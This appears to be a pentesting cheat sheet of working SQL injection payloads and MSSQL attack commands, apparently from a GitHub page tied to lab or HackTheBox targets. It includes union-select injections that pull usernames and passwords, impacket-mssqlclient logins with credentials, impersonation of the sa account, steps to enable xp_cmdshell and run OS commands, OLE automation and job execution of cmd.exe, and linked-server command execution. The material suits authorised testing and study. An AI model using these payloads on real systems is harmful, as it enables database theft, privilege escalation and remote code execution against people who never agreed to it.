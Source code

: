 ```
test' union select 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')--
test' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users--
```
#### impacket-mssqlclient
https://book.hacktricks.xyz/v/jp/network-services-pentesting/pentesting-mssql-microsoft-sql-server
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202

# help
help

# user enum
SELECT r.name, r.type_desc, r.is_disabled, sl.sysadmin, sl.securityadmin, sl.serveradmin, sl.setupadmin, sl.processadmin, sl.diskadmin, sl.dbcreator, sl.bulkadmin FROM master.sys.server_principals r LEFT JOIN master.sys.syslogins sl ON sl.sid = r.sid WHERE r.type IN ('S','E','X','U','G');

# impersonate
SELECT name FROM sys.server_permissions JOIN sys.server_principals ON grantor_principal_id = principal_id WHERE permission_name = 'IMPERSONATE';
EXECUTE AS LOGIN = 'sa';
## impacket
enum_impersonate
exec_as_login sa
## revert
REVERT;

# xp_cmdshell
enable_xp_cmdshell
disable_xp_cmdshell

EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

# ole automation
DECLARE @objShell INT; DECLARE @output varchar(8000); EXEC @output = sp_OACreate 'wscript.shell', @objShell Output; EXEC sp_OAMethod @objShell, 'run', NULL, 'cmd.exe /c "whoami > C:\Windows\Tasks\tmp.txt"';

# job
sp_start_job cmd.exe /c "whoami > C:\Windows\Tasks\tmp.txt"

# trustworthy
## role name and member
enum_db
USE [DBname];
SELECT b.name, c.name FROM [DBname].sys.database_role_members a JOIN [DBname].sys.database_principals b ON a.role_principal_id = b.principal_id LEFT JOIN [DBname].sys.database_principals c ON a.member_principal_id = c.principal_id;

# Link Server list
EXEC sp_linkedservers;
## link server
use_link SQL02
use_link localhost

SELECT * FROM OPENQUERY(SQL02, 'SELECT IS_SRVROLEMEMBER(''sysadmin'')');
EXECUTE ('EXEC sp_configure "show advanced options", 1; RECONFIGURE; EXEC sp_configure "xp_cmdshell", 1; RECONFIGURE; EXEC xp_cmdshell "whoami";') AT SQL02;
```